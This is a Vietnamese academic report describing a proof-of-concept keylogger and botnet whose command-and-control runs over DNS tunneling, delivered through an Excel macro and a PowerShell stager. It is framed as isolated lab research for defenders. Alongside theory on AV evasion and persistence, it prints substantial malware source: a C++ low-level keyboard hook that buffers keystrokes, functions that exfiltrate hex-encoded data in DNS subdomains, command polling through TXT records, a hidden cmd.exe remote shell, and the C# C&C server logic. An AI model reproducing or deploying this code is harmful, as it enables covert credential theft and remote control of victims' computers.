

# MỞ ĐẦU

## 1. TÍNH CẤP THIẾT CỦA ĐỀ TÀI
Trong bối cảnh các chiến dịch tấn công có chủ đích (APT) ngày càng tinh vi, đối thủ tận dụng các giao thức nền tảng vốn được tin cậy để che giấu hạ tầng và lưu lượng độc hại. DNS – lớp phân giải tên miền thiết yếu – thường được cho phép đi xuyên qua nhiều lớp kiểm soát mà không bị thanh tra chuyên sâu, tạo điều kiện cho việc lạm dụng. Kỹ thuật DNS tunneling cho phép nhúng dữ liệu điều khiển hoặc exfiltration vào truy vấn và phản hồi hợp lệ, hình thành kênh C&C ít bị nghi ngờ. Song song, keylogger vẫn là công cụ thu thập trực tiếp thông tin nhạy cảm từ bàn phím người dùng. Khi kết hợp trong mô hình botnet, chúng tạo thành chuỗi tấn công có độ che giấu cao, duy trì ổn định và gây tác động nghiêm trọng đến an ninh thông tin doanh nghiệp.

## 2. MỤC ĐÍCH VÀ Ý NGHĨA CỦA ĐỀ TÀI
### 2.1. Mục đích
Xây dựng và phân tích một hệ thống Proof‑of‑Concept (PoC) để thực nghiệm hóa các kỹ thuật chủ đạo: keylogging, kiến trúc botnet với kênh C&C dựa trên DNS tunneling, và cơ chế lây nhiễm thông qua Macro trong tài liệu Office. Hệ thống làm nền cho việc quan sát, đo đạc và lý giải cơ chế vận hành toàn chuỗi: xâm nhập ban đầu, thiết lập hiện diện, duy trì kết nối, thu thập và rò rỉ dữ liệu.
### 2.2. Ý nghĩa
Ý nghĩa học thuật và thực tiễn của công trình nằm ở chỗ cung cấp một mô hình cụ thể giúp khai mở các chiến lược phòng thủ (Blue Team). Dữ liệu và phân tích thu được là cơ sở xây dựng biện pháp phát hiện bất thường lưu lượng DNS, giám sát hành vi tiến trình, tăng cường kiểm soát mạng và đầu cuối. Báo cáo nhấn mạnh tính giáo dục, không khuyến khích ứng dụng trực tiếp vào môi trường sản xuất.

## 3. ĐỐI TƯỢNG VÀ PHẠM VI ĐỀ TÀI
### 3.1. Đối tượng
Keylogger (phần mềm và khái quát phần cứng), botnet và cơ chế điều khiển C&C, giao thức DNS và kỹ thuật DNS tunneling, cơ chế Windows Keyboard Hook (API `SetWindowsHookEx`, hook `WH_KEYBOARD_LL`), cùng kỹ thuật VBA Macro ở vai trò vector xâm nhập ban đầu.
### 3.2. Phạm vi
Giới hạn trong môi trường phòng thí nghiệm cách ly, sử dụng mã nguồn tự phát triển nhằm phục vụ mục đích học thuật và kiểm chứng giả thuyết. Không áp dụng trên hệ thống thực tế. Mọi mô phỏng hướng tới nâng cao nhận thức phòng thủ và năng lực phát hiện – ứng phó.

---

# CHƯƠNG 1. CƠ SỞ LÝ THUYẾT

Chương này trình bày nền tảng khái niệm và cơ chế kỹ thuật làm cơ sở cho các phần phân tích, thiết kế và đánh giá ở các chương sau. Nội dung bao quát keylogger, botnet và mô hình điều khiển C&C, giao thức DNS và kỹ thuật DNS tunneling, cùng cơ chế Windows Keyboard Hook trong hệ điều hành Windows.

## 1. Tổng quan về Keylogger

Keylogger là lớp công cụ thu thập chuỗi phím bấm (keystrokes) nhằm ghi nhận đầu vào của người dùng. Về nguyên lý, hệ thống đầu vào bàn phím của OS tạo ra các sự kiện (events) khi người dùng nhấn/thả phím; các sự kiện này được chuyển qua các tầng xử lý trong nhân (kernel) và không gian người dùng (user‑mode) đến ứng dụng đích. Keylogger can thiệp vào một hoặc nhiều điểm trong chuỗi này để quan sát hoặc sao chép dữ liệu.

Phân loại thường gặp gồm: (i) Keylogger phần cứng, như thiết bị cấy giữa bàn phím và máy tính hoặc chipset tích hợp, hoạt động ở tầng điện/xung và hoàn toàn tách biệt khỏi OS; (ii) Keylogger phần mềm, vận hành trong môi trường OS với nhiều kỹ thuật: hook luồng sự kiện bàn phím ở user‑mode, driver ở kernel‑mode, API hooking, hoặc polling các trạng thái phím. Keylogger phần cứng khó phát hiện qua phần mềm nhưng đòi hỏi tiếp cận vật lý; ngược lại, keylogger phần mềm linh hoạt, dễ triển khai nhưng để lại dấu vết tiến trình, API và hành vi có thể bị giám sát.

Trong ngữ cảnh mối đe dọa hiện đại, keylogger thường đi kèm các khả năng bổ trợ: ghi nhận ngữ cảnh (tiêu đề cửa sổ, tiến trình đang hoạt động), buffer và chuẩn hóa dữ liệu, mã hóa/che giấu trước khi gửi ra ngoài qua nhiều kênh (HTTP/HTTPS, SMTP, DNS…). Về bảo mật, các cơ chế phòng thủ có thể tận dụng đặc tính hành vi như việc cài hook hệ thống, truy cập API đặc thù, các mẫu beaconing ra mạng và tương quan tiến trình – người dùng.

## 2. Tổng quan về Botnet và C&C

Botnet là tập hợp các máy nạn nhân (bot) chịu điều khiển của một hay nhiều máy chủ điều khiển (Command and Control – C&C). Kiến trúc botnet có thể theo mô hình tập trung (centralized) như IRC/HTTP(S) hoặc phân tán (P2P) với khả năng phục hồi tốt khi một nút bị triệt hạ. Chuỗi hoạt động phổ biến gồm: lây nhiễm ban đầu (initial access), triển khai payload, đăng ký với C&C (registration), duy trì kết nối (beaconing/keep‑alive), nhận – thực thi lệnh và rò rỉ dữ liệu (exfiltration).

Các thành phần điển hình bao gồm: client/bot với các module chức năng (keylogging, shell từ xa, mạng), máy chủ C&C chịu trách nhiệm quản lý danh tính bot, điều phối phiên làm việc, xếp hàng lệnh và xử lý dữ liệu phản hồi; kênh truyền thông (transport) có thể là giao thức chuẩn (HTTP/HTTPS, DNS, email) hoặc kênh tuỳ biến. Thiết kế C&C phải cân bằng giữa độ ẩn mình, độ tin cậy và hiệu năng: sử dụng giao thức hợp pháp để hòa lẫn lưu lượng nền; có cơ chế kiểm soát phiên, chống phân tích ngược; đồng thời hạn chế độ trễ và chi phí truyền dẫn.

Về phòng thủ, việc phát hiện botnet thường dựa vào phân tích mẫu lưu lượng (traffic patterns), hành vi beaconing định kỳ, đặc điểm entropy/tính ngẫu nhiên của chỉ số nhận diện và tương quan nhiều nguồn log (endpoint, network, DNS). Kiến trúc phòng thủ theo chiều sâu (defense‑in‑depth) là yêu cầu cốt lõi vì không một lớp kiểm soát đơn lẻ nào đủ bao phủ toàn bộ vòng đời tấn công.

## 3. Giao thức DNS và DNS Tunneling

DNS là hệ thống phân giải tên miền phân tán, chuyển đổi tên có ngữ nghĩa (FQDN) sang bản ghi địa chỉ (A/AAAA) và các loại bản ghi khác (CNAME, TXT, MX, NS…). Kiến trúc DNS dựa trên hệ thống máy chủ phân cấp: root, TLD và authoritative cho từng zone; quá trình phân giải thường diễn ra qua recursive resolver của tổ chức/ISP với cơ chế cache để tối ưu hiệu năng. Đặc tính then chốt của DNS là tính nền tảng – hầu hết hệ thống đều cần DNS hoạt động thông suốt – khiến nó trở thành đích bị lạm dụng hấp dẫn.

DNS tunneling là kỹ thuật đóng gói dữ liệu ứng dụng vào trường tên miền (labels) của truy vấn hoặc nội dung phản hồi, hình thành một kênh truyền ẩn trong lưu lượng DNS hợp lệ. Về kỹ thuật, kênh này chịu ràng buộc bởi giới hạn độ dài: tối đa 63 octet mỗi nhãn, tổng độ dài tên không quá 255 octet; bảng ký tự hợp lệ (LDH) khiến các encoder thường sử dụng Base32/Base36/Base64 biến thể. Ở chiều phản hồi, các bản ghi như TXT, CNAME, thậm chí A/AAAA có thể mang dữ liệu mã hóa/điều khiển. Mô hình sử dụng phổ biến là client mã hóa – chia nhỏ dữ liệu, nhúng vào subdomain gắn với domain do kẻ vận hành kiểm soát; authoritative server tương ứng giải mã, xử lý và trả về chỉ thị/lệnh qua nội dung bản ghi. Do DNS thường được phép đi xuyên biên, kênh này có thể vượt qua một số kiểm soát bề mặt nếu không có cơ chế giám sát sâu.

Sơ đồ sau minh họa luồng DNS tunneling ở mức khái niệm:



Về phát hiện, các đặc trưng thường được khai thác gồm: độ dài/entropy của nhãn, tần suất truy vấn, phân bố loại bản ghi, TTL bất thường, mô hình phân cụm đích/truy vấn, và tương quan với hành vi tiến trình sinh lưu lượng trên endpoint.

## 4. Cơ chế Windows Keyboard Hooking

Trên Windows, cơ chế hook cho phép một tiến trình đăng ký nhận thông báo sự kiện hệ thống. Đối với bàn phím, API `SetWindowsHookEx` là điểm vào chính để cài đặt các hook ở nhiều cấp độ, trong đó `WH_KEYBOARD_LL` là loại hook low‑level ở không gian người dùng cho phép một tiến trình nhận thông báo về sự kiện nhấn/thả phím trước khi sự kiện đến ứng dụng đích. Khi cài đặt hook, hệ thống duy trì một chuỗi (hook chain), mỗi hook procedure lần lượt được gọi với tham số mô tả sự kiện; trong trường hợp low‑level keyboard hook, cấu trúc `KBDLLHOOKSTRUCT` cung cấp mã phím (vkCode), thông tin trạng thái và cờ điều khiển. Callback tiêu biểu có dạng `LowLevelKeyboardProc(nCode, wParam, lParam)`; ứng dụng có thể ghi nhận hoặc quyết định chuyển tiếp/ chặn sự kiện bằng cách trả về giá trị phù hợp.

So với `WH_KEYBOARD` (hook theo luồng/tiến trình GUI), `WH_KEYBOARD_LL` cho phép theo dõi toàn hệ thống mà không cần DLL injection vào từng tiến trình, nhờ vậy thuận tiện hơn cho các công cụ giám sát/ghi nhật ký ở user‑mode. Tuy nhiên, hook low‑level vẫn có thể bị giám sát bởi các giải pháp EDR qua hành vi API, chuỗi gọi, và các chỉ báo liên quan như tần suất xử lý sự kiện, mẫu truy cập vào tiêu đề cửa sổ hay buffer ghi log. Ở chiều ngược lại, cơ chế phòng vệ kernel‑mode và các chính sách bảo mật ứng dụng (AppLocker, ASR) có thể làm giảm bề mặt khai thác và cảnh báo sớm các mẫu cài hook bất thường.

## 5. KỸ THUẬT OBFUSCATION VÀ EVASION

### 5.1. Mã hóa và làm rối mã nguồn (Obfuscation)
Obfuscation là tập hợp các phương pháp biến đổi mã nguồn hoặc mã thực thi nhằm làm giảm tính dễ đọc và khả năng phân tích tĩnh mà vẫn bảo toàn chức năng. Mục tiêu là kéo dài thời gian phân tích, gây nhiễu công cụ đảo ngược và ẩn giấu ý đồ logic. Các kỹ thuật phổ biến gồm đổi tên biến/hàm thành chuỗi vô nghĩa (name mangling), mã hóa hoặc nén chuỗi ký tự (string encryption/compression) chỉ giải mã tại thời điểm sử dụng, làm phẳng luồng điều khiển (control flow flattening) biến cấu trúc phân nhánh rõ ràng thành trạng thái/dispatcher vòng lặp, chèn mã rác hoặc đoạn dead code để tăng nhiễu, và sử dụng toán học hoặc bảng tra (lookup tables) thay cho biểu thức trực tiếp. Trong ngữ cảnh ngôn ngữ kịch bản như VBA hoặc PowerShell, obfuscation thường kết hợp phân mảnh payload, ghép chuỗi động, và gọi gián tiếp qua reflection hay `Invoke-Expression` để che giấu hành vi. Điều này làm suy giảm hiệu quả của chữ ký tĩnh và yêu cầu phân tích hành vi sâu hơn.

### 5.2. Kỹ thuật bypass Antivirus (AV Evasion)
Hệ thống Antivirus truyền thống áp dụng hai hướng chính: phát hiện dựa trên chữ ký (signature-based) đối chiếu mẫu byte, hash, chuỗi đặc trưng; và phát hiện dựa trên heuristic/hành vi (behavioral) quan sát chuỗi hoạt động, API gọi, mẫu tương tác hệ thống. Né tránh chữ ký thường thông qua crypter/packer: mã hóa hoặc nén payload rồi giải mã tại runtime trong bộ nhớ, làm thay đổi đặc trưng nhị phân; sử dụng kỹ thuật polymorphic (thay đổi nhỏ cấu trúc mã, chuỗi, junk insertion mỗi lần sinh) hoặc metamorphic (thay đổi sâu kiến trúc control flow và opcode) khiến mỗi biến thể có fingerprint khác biệt. Né tránh heuristic dựa vào Living off the Land (LotL): lạm dụng công cụ hợp pháp sẵn có như PowerShell, WMI, `bitsadmin`, `regsvr32`, `rundll32` để thực hiện tác vụ độc hại, giảm nhu cầu mang thêm binary bespoke và hòa trộn với hoạt động quản trị bình thường. Các kỹ thuật trì hoãn (sleep, timing checks), sandbox evasion (kiểm tra số lõi CPU, độ phân giải màn hình, sự hiện diện process AV), và API unhooking cũng thường xuyên được kết hợp.

### 5.3. Kỹ thuật duy trì sự tồn tại (Persistence Mechanisms)
Persistence đảm bảo mã độc sống sót sau khởi động lại hệ thống, đăng xuất người dùng hoặc chu kỳ cập nhật phiên. Trên Windows, nhiều bề mặt cấu hình cho phép khởi tạo tự động: (i) Scheduled Tasks thiết lập chạy định kỳ hoặc theo trigger đăng nhập/sự kiện hệ thống; (ii) Registry Run Keys như `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` và `HKLM\Software\Microsoft\Windows\CurrentVersion\Run` nạp thực thi khi người dùng đăng nhập; (iii) Services cài đặt dưới dạng dịch vụ nền với quyền mở rộng và khởi động tự động; (iv) Startup Folder thêm shortcut hoặc executable được thực thi trong phiên người dùng; ngoài ra còn có AppInit DLLs, Winlogon Shell, WMI Event Subscriptions, và COM hijacking. Việc lựa chọn cơ chế phụ thuộc vào quyền có được, mức độ bền vững mong muốn và đích né tránh giám sát. Ở chương này, nội dung dừng ở mức khái niệm; phân tích cụ thể cơ chế persistence mà dự án áp dụng sẽ được trình bày chi tiết ở Chương 2.

Tổng kết lại, các thành phần lý thuyết từ keylogger, botnet/C&C, DNS tunneling, cơ chế hook bàn phím đến obfuscation và evasion tạo nền tảng giúp ở các chương tiếp theo phân rã và đối chiếu với hiện thực triển khai PoC: module keylogger thu thập và chuẩn hóa dữ liệu, client botnet đóng gói – vận chuyển qua DNS đến C&C, server giải mã – điều phối lệnh, cùng các lớp kỹ thuật che giấu và duy trì tồn tại.

---

# CHƯƠNG 2. PHÂN TÍCH VÀ THIẾT KẾ HỆ THỐNG

## 1. Kiến trúc tổng thể

### 1.1. Mô hình tổng quan và 1.2. Các thành phần chính
Hệ thống Proof‑of‑Concept được thiết kế để tái hiện trọn vẹn một chuỗi tấn công hiện đại sử dụng kênh C&C dựa trên DNS tunneling, với trọng tâm là khả năng thu thập dữ liệu bàn phím và điều khiển từ xa thông qua các bản ghi DNS hợp lệ. Mô hình gồm năm khối chức năng phối hợp:

Trên phía nạn nhân, máy Windows đóng vai trò môi trường thực thi payload cuối cùng. Chuỗi xâm nhập ban đầu sử dụng tệp Microsoft Excel có Macro VBA để kích hoạt PowerShell, yêu cầu và thực thi mã PowerShell đóng vai trò stager. Sự lựa chọn này phản ánh thực tế chiến dịch APT thường tận dụng tệp Office để lẫn vào luồng công việc hợp pháp và tận dụng chính sách cho phép chạy macro ở môi trường kém kiểm soát.

Staging Server được triển khai bằng Next.js và lưu trữ trên Vercel với API đơn giản cung cấp các payload như `Service.ps1` và tệp nhị phân client. Việc sử dụng nền tảng serverless có uy tín giúp giảm rủi ro bị chặn bởi các cơ chế dựa trên danh tiếng tên miền; đồng thời, route API kiểm soát truy cập file một cách an toàn bằng ràng buộc đường dẫn. Đoạn xử lý tải tệp trong `pages/api/download.js` cho thấy cách sử dụng Node.js để đọc file từ thư mục riêng tư và ép tải về dưới dạng nhị phân:

```javascript
// pages/api/download.js (rút gọn)
const { file: requestedFile } = req.query;
const safeFileName = path.basename(requestedFile);
const privateDirPath = path.join(process.cwd(), 'private_files');
const filePath = path.join(privateDirPath, safeFileName);
// ... kiểm tra tồn tại và gửi về dưới dạng octet-stream
```

Máy chủ C&C được viết bằng C# .NET với giao diện WinForms. Lý do chọn C# là hệ sinh thái .NET giàu thư viện mạng, thao tác socket UDP thuận tiện, cùng khả năng xây dựng UI điều khiển nhanh gọn. C&C vận hành như một Authoritative DNS Server cho domain do người vận hành kiểm soát; nó phân tích truy vấn đến, trích xuất dữ liệu trong các subdomain theo giao ước giao thức nội bộ, ghép mảnh và lưu nhật ký. Ngoài ra, C&C chèn lệnh điều khiển vào phản hồi DNS (TXT) để client polling nhận lệnh và gửi kết quả thông qua các truy vấn A.

Bot/Client là tệp thực thi C++ chạy trên máy nạn nhân. Việc chọn C++ xuất phát từ nhu cầu tương tác cấp thấp với Windows API (cài hook `WH_KEYBOARD_LL`), hiệu năng tốt và kích thước nhị phân gọn. Client triển khai ba mô‑đun chính: keylogger (thu thập keystroke), network (đóng gói, chia mảnh và truyền dữ liệu qua DNS), và shell (thực thi lệnh từ xa, thu thập output và gửi ngược về C&C theo cơ chế chunk). Một số cấu hình quan trọng nằm trong `Network.h` như tên miền đích và địa chỉ recursive resolver dùng cho thử nghiệm:

```cpp
// Network.h (trích)
inline std::string TARGET_DOMAIN = "example.com";
inline const char* DNS_SERVER_IP = "100.123.123.123"; // Resolver nội bộ/lab
```

Hạ tầng mạng dùng TailScale để dựng lớp overlay VPN giữa C&C và các máy lab. Sự lựa chọn này loại bỏ nhu cầu mở cổng trên Internet công cộng, đơn giản hóa định tuyến, cung cấp IP ổn định cho các node, và đảm bảo mã hóa lưu lượng đầu‑cuối. Trong kịch bản lab, TailScale giúp máy chủ BIND9 và C&C giao tiếp với nhau đáng tin cậy, đồng thời cho phép client trỏ DNS đến resolver nội bộ mà không đụng chạm cấu hình NAT phức tạp.

### 1.3. Luồng dữ liệu trong hệ thống
Sơ đồ trình tự sau mô tả chuỗi hoạt động từ xâm nhập ban đầu đến truyền dữ liệu và điều khiển từ xa qua DNS tunneling. Các nhãn gói phản ánh giao ước nội bộ: `a` cho khởi tạo kết nối, `b` cho dữ liệu keylogger, `p` cho polling lệnh (TXT), và `c` cho gửi kết quả lệnh (A):

```plantuml
@startuml
!theme plain
title Luồng Hoạt Động Của Hệ Thống
actor "Nạn nhân" as Victim
participant "Excel Macro" as Macro
participant "PowerShell" as PS
participant "Stager Server\n(Vercel/Next.js)" as Stager
participant "Bot Client (C++)" as Bot
participant "DNS Resolver\n(BIND9)" as DNS
participant "C&C Server (C#)" as C2
== Giai đoạn 1: Lây nhiễm ban đầu ==
Victim -> Macro: Mở file Excel và kích hoạt Macro
Macro -> Stager: Gửi HTTP GET tới /api/download?file=Service.ps1
Stager --> Macro: Trả về PowerShell stager (octet-stream)
Macro -> PS: Invoke-Expression nội dung stager
== Giai đoạn 2: Cài đặt và Duy trì ==
PS -> Stager: (Nếu có) Tải payload chính (Bot Client)
Stager --> PS: Trả về file thực thi C++
PS -> Victim: Lưu file và thiết lập Persistence
PS -> Bot: Khởi chạy Bot Client
== Giai đoạn 3: Giao tiếp C&C qua DNS Tunneling ==
Bot -> Bot: Cài hook bàn phím, buffer keystrokes
loop Truyền dữ liệu/Điều khiển
	Bot -> DNS: a.1.1.1.domain (khởi tạo, A)
	DNS -> C2: Forward tới authoritative
	C2 --> DNS: A giả lập chứa [ConnID] ở octet 4
	DNS --> Bot: Nhận ConnID
	Bot -> DNS: b.[pkt].[id].[hexdata].domain (A)
	DNS -> C2: C2 giải mã, ghép mảnh, lưu log
	C2 --> DNS: A với mã [200.x.x.x] phản hồi
	DNS --> Bot: ACK thành công
	Bot -> DNS: p.[pkt].[off].[id].domain (TXT, poll lệnh)
	C2 --> DNS: TXT chứa chunk lệnh (hex UTF‑8)
	DNS --> Bot: Nhận và ghép lệnh
	Bot -> DNS: c.[pkt].[off].[id].[hexdata].domain (A)
	C2: Nhận chunk kết quả, cập nhật UI
end
@enduml
```

Các bước trên tương ứng chặt chẽ với các hàm trong client và server. Client khởi tạo bằng `startConnection`, nhận ID từ địa chỉ IP phản hồi được mã hóa, sau đó gửi dữ liệu bằng các truy vấn A kiểu `b` và polling lệnh bằng TXT kiểu `p`. Trên server, `ServerLogic` phân luồng truy vấn theo nhãn gói, phối hợp `ProtocolHandler` để trích dữ liệu và `DNSResponseBuilder` để tạo phản hồi phù hợp.

## 2. Hạ tầng mạng và môi trường lab

Môi trường lab gồm máy nạn nhân Windows, resolver nội bộ BIND9/Unbound và máy chủ C&C. Theo sơ đồ trong `DOCS/LabEnvironment.txt`, nạn nhân trỏ DNS về resolver nội bộ. Resolver này hoặc đóng vai recursive, hoặc cấu hình chuyển tiếp có điều kiện (conditional forwarding) cho zone độc hại tới Authoritative C&C. Đích thiết kế là cô lập toàn bộ đàm phán DNS của domain kiểm soát trong mạng ảo TailScale, tránh rò rỉ ra Internet.

Vai trò của TailScale trong lab đặc biệt hữu ích: các node tham gia được cấp IP ảo ổn định, các gói UDP/53 phục vụ PoC đi qua kênh mã hóa, đồng thời không cần mở port trên router. Điều này cho phép thay đổi linh hoạt địa chỉ thực mà không ảnh hưởng đến cấu hình client vốn chỉ biết đến resolver nội bộ.

Với BIND9, có hai phương án: (i) C&C trực tiếp đóng vai authoritative và lắng nghe UDP/53 trên IP TailScale, khi đó resolver chuyển tiếp mọi truy vấn `*.domain` về IP đó; hoặc (ii) cấu hình zone delegation để `NS` của domain chỉ tới C&C. Trong dự án, thành phần `AuthoritativeDNSHandler` hiện thực logic phản hồi authoritative ở tầng ứng dụng. Ví dụ khi truy vấn trúng domain gốc, server phản hồi NS và SOA tối thiểu cùng bản ghi A cho `ns1/ns2` như sau:

```csharp
// AuthoritativeDNSHandler.HandleQuery (trích)
if (stripped == _domain) {
	return DNSResponseBuilder.CreateAuthoritativeResponse(
		originalQuery, query, _serverIp, _domain);
}
```

Phần tạo bản ghi A/TXT/Authoritative được gói trong `DNSResponseBuilder`, giúp kiểm soát TTL, TYPE và dữ liệu trả về. Ở chế độ PoC, phản hồi A còn được dùng để mã hóa mã trạng thái hoặc ConnID theo quy ước nội bộ (octet đầu chứa `200/201/...`).

## 3. Command and Control Server

Kiến trúc máy chủ C# .NET tổ chức theo các lớp: lớp DNS xử lý gói thô và đóng gói phản hồi, lớp Logic định tuyến theo giao thức nội bộ, lớp Models quản lý parser dữ liệu và mã lỗi, Utilities cung cấp tiện ích như sinh địa chỉ IP phản hồi, và lớp UI điều khiển/giám sát. Quyết định dùng C# cho server xuất phát từ nhu cầu thao tác UDP, dễ tích hợp giao diện tương tác (WinForms), và khả năng nhanh chóng lắp ráp các thành phần parsing/encoding phức tạp trong .NET.

Tầng parse DNS đọc tên truy vấn từ payload thô, tái tạo `QueryName`, `TransactionId` và `QueryType` phục vụ các nhánh xử lý tiếp theo:

```csharp
// DNSParser.ParseQuery (rút gọn)
int pos = 12; var queryName = new StringBuilder();
while (pos < data.Length && data[pos] != 0) {
	int len = data[pos++];
	for (int i = 0; i < len && pos < data.Length; i++)
		queryName.Append((char)data[pos++]);
	if (pos < data.Length && data[pos] != 0) queryName.Append('.');
}
pos++;
ushort queryType = (ushort)((data[pos] << 8) | data[pos + 1]);
```

Tầng `ProtocolHandler` chịu trách nhiệm gỡ giao ước tên miền nội bộ, lọc domain hợp lệ và rút phần dữ liệu trước domain để chuyển cho parser. Với gói kiểu `b` (data), dữ liệu được mã hóa hex ở client và giải mã lại thành byte ở server; đồng thời, sự kiện `OnDataReceived` kích hoạt cập nhật UI keystroke.

```csharp
// ProtocolHandler.ParseDataPacket (trích)
string[] parts = data.Split('.');
int packetNumber = int.Parse(parts[0]);
int connectionId = int.Parse(parts[1]);
string hexData = parts[2];
byte[] decodedData = Convert.FromHexString(hexData);
parser.AddData(packetNumber, decodedData);
OnDataReceived?.Invoke(connectionId, Encoding.ASCII.GetString(decodedData));
```

Luồng xử lý trung tâm nằm trong `ServerLogic.ProcessQuery`, phân nhánh theo tiền tố gói và loại bản ghi. Truy vấn kiểu `a` cấp ConnID qua địa chỉ IP trả về; kiểu `b` thu thập dữ liệu keylogger; kiểu `p` trả về chunk lệnh dưới TXT; kiểu `c` thu kết quả lệnh từ client. Mã minh họa nhánh `a` và `p`:

```csharp
// ServerLogic.ProcessQuery (trích)
if (packetType == "a" && dnsQuery.QueryType == 1) {
	int existingId = _clientManager.GetConnectionIdByIp(remoteEP.Address.ToString());
	int connectionId = existingId > 0 ? existingId : _clientManager.AddClient(remoteEP.Address.ToString());
	string fakeIp = IPGenerator.CreateStartIp(connectionId - 1);
	response = DNSResponseBuilder.CreateSimpleAResponse(data, dnsQuery, fakeIp);
}
else if (packetType == "p" && dnsQuery.QueryType == 16) {
	// p.packetNumber.offset.connectionId.domain
	int connectionId = int.Parse(pParts[2]);
	string commandChunk = /* lấy 60 ký tự, mã hóa hex UTF‑8 */;
	response = DNSResponseBuilder.CreateTXTResponse(data, dnsQuery, commandChunk);
}
```

Việc gói lệnh vào TXT cần chú ý encoding. Trên server, lệnh gốc (UTF‑8) được cắt 60 ký tự mỗi chunk và mã hóa hex để client có thể ghép lại an toàn bất kể encoding. `DNSResponseBuilder.CreateTXTResponse` dựng một bản ghi TXT tối giản với TTL ngắn để hỗ trợ tương tác near‑real‑time giữa UI và client.

Giao diện người dùng `UI/MainForm.cs` kết nối với `ServerLogic` qua các sự kiện để cập nhật log, thêm client mới, hiển thị bản xem trước keystrokes và mở cửa sổ shell điều khiển. Button “Open Remote Shell” tạo `RemoteShellForm`, còn lệnh gửi đi được đẩy vào hàng đợi bằng `EnqueueCommand`, sau đó máy khách sẽ polling để nhận trong các phản hồi TXT.

## 4. Botnet Client

Kiến trúc client tách biệt mô‑đun keylogger, mạng và shell. Luồng chính trong `Main.cpp` đảm bảo singleton bằng mutex, lặp thử `startConnection` cho đến khi nhận được ConnID, cài hook `WH_KEYBOARD_LL` và sinh các luồng nền gửi dữ liệu và điều khiển botnet:

```cpp
// Main.cpp (rút gọn)
HANDLE mutex = CreateMutex(nullptr, TRUE, MUTEX_NAME);
while ((connectionId = startConnection(TARGET_DOMAIN.c_str())) == -1) { Sleep(2000); }
_k_hook = SetWindowsHookEx(WH_KEYBOARD_LL, process_key, nullptr, 0);
HANDLE hSenderThread = CreateThread(nullptr, 0, senderThread, nullptr, 0, nullptr);
HANDLE hSenderBotnetThread = CreateThread(nullptr, 0, senderBotnetThread, nullptr, 0, nullptr);
HANDLE hExecThread = CreateThread(nullptr, 0, handle_botnet, nullptr, 0, nullptr);
```

Mô‑đun keylogger sử dụng callback `process_key` để chuyển `vkCode` thành ký tự thông qua `ToAsciiEx`, buffer hóa và đẩy vào hàng đợi gửi khi đạt ngưỡng, tránh gọi DNS quá dày đặc:

```cpp
// KeyLogger.cpp (trích)
if (wParam == WM_KEYDOWN) {
	PKBDLLHOOKSTRUCT key = reinterpret_cast<PKBDLLHOOKSTRUCT>(lParam);
	BYTE keyboardState[256]; GetKeyboardState(keyboardState);
	unsigned short translatedChar[2] = {0};
	int result = ToAsciiEx(key->vkCode, key->scanCode, keyboardState, translatedChar, key->flags, keyboardLayout);
	if (result == 1) { char keyChar = (char)translatedChar[0]; if (keyChar >= 32 && keyChar <= 126) keystrokeBuffer += keyChar; }
	if (keystrokeBuffer.size() >= MAX_BUFFER) { std::lock_guard<std::mutex> lock(queueMutex); sendQueue.push(keystrokeBuffer); keystrokeBuffer.clear(); }
}
```

Mô‑đun mạng chịu trách nhiệm đóng gói thành tên miền hợp lệ và gọi `DnsQuery_A/TXT` tới resolver đã chỉ định. Khởi tạo kết nối gửi gói `a.1.1.1.domain` và giải mã ConnID từ octet cuối địa chỉ IP phản hồi; dữ liệu keylogger gửi bằng `b.pkt.id.hex.domain`. Cơ chế điều khiển hai chiều gồm polling lệnh qua TXT (`p`) và gửi kết quả qua A (`c`) theo từng chunk, có logic retry và xử lý mã trạng thái:

```cpp
// Network.cpp (trích)
int startConnection(const char* domain) {
  std::string fullString = "a.1.1.1."; fullString += domain;
  status = DnsQuery_A(pOwnerName, DNS_TYPE_A, DNS_OPTIONS, pSrvList, &pDnsRecord, nullptr);
  IN_ADDR ipaddr; ipaddr.S_un.S_addr = pDnsRecord->Data.A.IpAddress; std::string ipStr = inet_ntoa(ipaddr);
  int connectionId = std::stoi(ipStr.substr(ipStr.rfind(".") + 1));
  return connectionId;
}

int sendData(int& id, int& packetNumber, const char* domain, const char* data) {
  std::ostringstream full; full << "b." << packetNumber << "." << id << "." << convertToHex(data) << "." << domain;
  // ... gọi DnsQuery_A và đọc mã trạng thái từ octet đầu IP: 200/201/202/203/204
}

int sendDataTypeP(int& id, int& packetNumber, size_t& offset, const char* domain) {
  std::ostringstream full; full << "p." << packetNumber << "." << offset << "." << id << "." << domain;
  // ... DnsQuery_A với TYPE TXT, giải mã hex từ wchar_t, ghép chunk lệnh
}
```

Mô‑đun shell tạo tiến trình `cmd.exe` ở chế độ không cửa sổ, đấu nối pipe chuẩn vào/ra/lỗi, chuyển đổi encoding để tương thích code page OEM, và đẩy output từng dòng trở lại C&C thông qua `ConsoleClient::Send` (đẩy vào hàng đợi để gửi dưới dạng chunk `c`). Trích đoạn thiết lập pipe và tiến trình:

```cpp
// Shell.cpp (trích)
CreatePipe(&_hChildStd_IN_Rd, &_hChildStd_IN_Wr, &sa, 0);
CreatePipe(&_hChildStd_OUT_Rd, &_hChildStd_OUT_Wr, &sa, 0);
CreatePipe(&_hChildStd_ERR_Rd, &_hChildStd_ERR_Wr, &sa, 0);
